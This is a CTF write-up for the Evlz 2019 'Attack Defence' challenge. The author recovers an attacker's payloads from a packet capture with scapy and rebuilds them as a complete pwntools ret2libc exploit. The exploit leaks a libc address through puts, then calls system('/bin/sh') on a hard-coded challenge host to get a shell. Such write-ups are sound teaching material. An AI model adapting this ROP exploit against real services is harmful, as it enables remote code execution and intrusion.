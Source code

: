 # Evlz 2019 CTF - Attack Defence Write-Up (PWN)
<!--Authors: SoulTaku-->

```
Our network was recently breached by some 0-day that we never saw before.
I am providing you with the pcap of the network. Please find out what did they take.

Difficulty estimate: Easy
```

This challenge really intrigued me since it didn't provide us with a binary, so I was really curious about how should one approach this problem.

Since we are provided with a pcap we start by firing up wireshark and analyzing the packets.

Besides ssh and tls traffic there are some interesting tcp packets sending some data. I applied the data as a column in tcp so i can see all the packets sending data, and something amazing showed up. Those packets were actually the exploit being sent over the wire.

I wanted to get all those packets in order to analyze them more in-depth so i opend scapy and filtered the packets that were communicationg on port 4445 since the communication took place on that port.

```python
>>> packets = rdpcap('log2.pcapng')                                                                                                          
>>> pkts = PacketList() 
...: for p in packets: 
...:     if p.haslayer(Raw) and p.haslayer(TCP): 
...:         if p[TCP].sport == 4445 or p[TCP].dport == 4445: 
...:             print(p.load) 
...:                                                                                                                                         
b'AAAAAAAAAAAAAAAAAAAAAAAA'
b'read GOT at 0x404020\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00 @@\x00\x00\x00\x00\x00\n'
b'puts PLT at 0x40102c\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00 @@\x00\x00\x00\x00\x00,\x10@\x00\x00\x00\x00\x00\n'
b'main in binary at 0x4011a3\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00 @@\x00\x00\x00\x00\x00,\x10@\x00\x00\x00\x00\x00\xa3\x11@\x00\x00\x00\x00\x00\n'
b'read found at 0x7f76847cf250\nputs found at 0x7f7684747690\nsystem found at 0x7f768471d390\nfree found at 0x7f768475c4f0\nmalloc found at 0x7f768475c130\n'
b'We should be back at the beginning of binary'
b'POP RDI; RET gadget at 0x40124b\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00WM\x86\x84v\x7f\x00\x00\x90\xd3q\x84v\x7f\x00\x00\n'
b"Got shell, let's roll\n"
b'Got flag as evlz{XxXxXxXxXxXxXxXxXxXxXxX}ctf\nClosing connection\n'
```

Hmm, this is interesting. So we know the address of system, let's search for the libc. After a quick search on libc.blukat.me I found it. Now let's get to the exploit. As we can see it's a simple rop chain. We also have the address of a pop rdi gadget. Things are simple now, call puts with the address of read, find the offset of libc in memory then call `system('/bin/sh')`.

Final exploit:

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch='i386')
exe = './path/to/binary'
libc = ELF('./libc.so')

host = args.HOST or '35.198.113.131'
port = int(args.PORT or 31336)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

# -- Exploit goes here --

padding = 'A' * 24

pop_rdi  = b'K\x12@\x00\x00\x00\x00\x00'
read_got = b' @@\x00\x00\x00\x00\x00'
puts_plt = b',\x10@\x00\x00\x00\x00\x00'
main     = b'\xa3\x11@\x00\x00\x00\x00\x00'

read_libc   = 0xf7250
system_libc = 0x45390
binsh_libc  = 0x18cd57

io = start()

# Stage 1. Leak

print(io.recv())
io.sendline(padding + pop_rdi + read_got + puts_plt + main)

leaked_read = u64(io.recvline().strip().ljust(8, '\x00'))
offset      = leaked_read - read_libc

log.success('read@libc: ' + hex(leaked_read))
log.success('Offset: ' + hex(offset))

# Stage 2. g3t_5h311

print(io.recv())
io.sendline(padding + pop_rdi + p64(binsh_libc + offset) + p64(system_libc + offset))

io.interactive()

```

Got flag as `evlz{w0ah_A_pwn3r_do3s_netw0rk_for3nsic5}ctf`

This was a really great problem, I loved how this CTF had lots of original problems, had a really great time playing it! Love and peace!

